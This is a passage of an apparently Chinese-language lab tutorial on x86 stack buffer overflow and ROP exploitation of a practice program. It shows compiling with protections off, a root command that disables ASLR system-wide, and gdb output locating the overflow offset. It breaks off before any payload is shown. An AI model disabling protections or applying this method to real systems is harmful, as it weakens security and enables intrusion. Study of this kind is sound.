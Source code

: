 这个命令编译程序。`-fno-stack-protector`和`-z execstack`这两个参数会分别关掉`Stack Protector(GS、canary)`和`DEP(NX)`。

同时我们在shell中执行：

``` bash
sudo -s 
echo 0 > /proc/sys/kernel/randomize_va_space
exit
```

这几个指令。执行完后我们就关掉整个linux系统的`ASLR`保护。

接下来我们开始对目标程序进行分析。首先我们先来确定`溢出点`的位置，这里我推荐使用`pattern.py`这个脚本来进行计算。我们使用如下命令：

``` bash
python pattern.py create 150
```

来生成一串测试用的150个字节的字符串：

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```

随后我们使用`gdb ./level1`调试程序。

``` bash
pwndbg> run
Starting program: /home/buffer/桌面/practice/ROP_x86/0x01/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.

Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x37654136 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────────────────────
*EAX  0x97
 EBX  0x0
*ECX  0xffffcd90 ◂— 0x41306141 ('Aa0A')
*EDX  0x100
*EDI  0xf7fb4000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
*ESI  0xf7fb4000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
*EBP  0x65413565 ('e5Ae')
*ESP  0xffffce20 ◂— 0x41386541 ('Ae8A')
*EIP  0x37654136 ('6Ae7')
───────────────────────────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────────────────────────
Invalid address 0x37654136

```

我们可以得到`内存出错`的地址为`0x37654136`。随后我们使用命令：
